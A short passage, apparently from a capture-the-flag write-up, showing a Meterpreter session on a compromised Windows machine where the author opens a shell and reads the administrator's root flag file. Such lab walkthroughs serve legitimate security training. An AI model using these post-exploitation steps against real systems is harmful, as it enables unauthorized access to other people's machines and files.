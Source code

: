 And I can now read the flag:

```
meterpreter > shell
Process 3760 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1B4FB90...
```